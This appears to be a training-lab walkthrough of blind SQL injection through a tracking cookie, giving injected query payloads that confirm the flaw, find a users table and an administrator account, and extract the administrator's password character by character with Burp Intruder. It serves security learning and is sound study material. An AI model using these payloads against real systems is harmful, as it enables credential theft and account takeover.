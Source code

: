 Lab #11 - Blind SQL Injection with conditional responses

Vulnerable parameter - Tracking Cookie

End Goals:

- Enumerate the password of administrator
- Login as administrator user

Analysis:

1. Confirm that the parameter is vulnerable to blind sqli

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes'

- If the tracking id exists => query returns value => Welcome back
- If it doesn't exist => query returns nothing => no Welcome back

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and 1=1--' -> _True_ -> _Welcome back_

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and 1=2--' -> _False_ -> _no Welcome back_

2. Confirm that we have a users table

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select 'x' from users LIMIT 1)='x'-- ' -> _if users table exists_ -> _True_ -> _Welcome back_ ==> users table exists

3. Confirm username administrator exists in users table

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select username from users where username='administrator')='administrator'-- ' -> _if username administrator exists_ -> _True_ -> _Welcome back_ ==> user administrator exists

4. Enumerate password for the administrator user

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select username from users where username='administrator' and LENGTH(password)>=1)='administrator'-- ' ==> _length of password is 20_

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select substring(password,1,1) from users where username='administrator')='a'-- ' ==> _gives the administrator's password_ [with the help of intruder(burp)]
